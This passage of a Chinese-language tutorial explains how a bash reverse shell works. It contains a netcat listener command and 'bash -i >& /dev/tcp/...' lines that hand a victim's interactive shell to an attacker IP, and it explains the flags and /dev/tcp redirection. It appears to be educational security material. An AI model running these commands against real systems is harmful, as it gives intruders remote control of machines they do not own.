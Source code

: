 ```
nc -lvp 2333
```

victim 机器上执行：

```
bash -i >& /dev/tcp/192.168.159.134/2333 0>&1
```

就可以看到在攻击机上出现了受害者机器的shell

<img src="0.相关知识.assets/image-20220910165934058.png" alt="image-20220910165934058" style="zoom: 80%;" />

`bash -i >& /dev/tcp/192.168.159.134/2333 0>&1`  简单解释：

//	**bash** 是linux 的一个比较常见的shell,其实linux的shell还有很多，比如 sh、zsh、等，他们之间有着细小差别
// 	**-i**     这个参数表示的是产生交互式的shell
//	**/dev / tcp|udp / ip/ port** 	这个文件是特别特殊的，实际上可以将其看成一个设备（Linux下一切皆文件），其实如果你访问这个文件的位置他是不存在的就会访问失败，   但是如果你**在一方监听端口的情况下对这个文件进行读写**，就**能实现与监听端口的服务器的socket通信**

### **交互重定向**

#### 1.输出重定向

为了实现交互，我们需要把**受害者**交互式**shell的输出重定向到攻击机**上

在受害者机器上输入

```
bash -i > /dev/tcp/192.168.159.134/2333
```

![image-20220910171447275](0.相关知识.assets/image-20220910171447275.png)
